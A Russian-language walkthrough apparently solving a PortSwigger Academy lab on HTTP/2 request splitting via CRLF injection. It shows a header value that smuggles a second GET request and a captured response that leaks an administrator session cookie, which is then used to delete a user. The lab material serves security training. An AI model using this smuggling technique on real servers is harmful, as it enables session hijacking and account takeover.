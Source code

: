 Перейдем на уязвимый ресурс 

Откроем `Proxy` ->` HTTP history` и изучим запросы

отправим в `Repeater` запрос на корневую страницу

Далее зайдем в `Inspector` -> `Request header` и добавим header 
```
Foo со значением

Bar


GET /qweqwbfqwyfqwfqwfqw HTTP/1.1
Host: 0a43007604564f3781ea48f6002d00bd.web-security-academy.net
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/14.%20HTTP2%20request%20splitting%20via%20CRLF%20injection/pics%20for%20walkthrough/1.png)
Отлично, при сохранении наш запрос изменится и видим 200 респонс статус код

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/14.%20HTTP2%20request%20splitting%20via%20CRLF%20injection/pics%20for%20walkthrough/2.png)


Повторяем этот запрос, пока не увидим 
```
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=4jUo7jEXjkj6Mv7GQ9BdcpdpRowv7AXR; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/14.%20HTTP2%20request%20splitting%20via%20CRLF%20injection/pics%20for%20walkthrough/3.png)


изменим куки и попадем на админскую панель, и удалим carlos'a как этого и требует задание
после чего получим уведомление об успешно выполненной лабораторной работе

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/14.%20HTTP2%20request%20splitting%20via%20CRLF%20injection/pics%20for%20walkthrough/4.png)
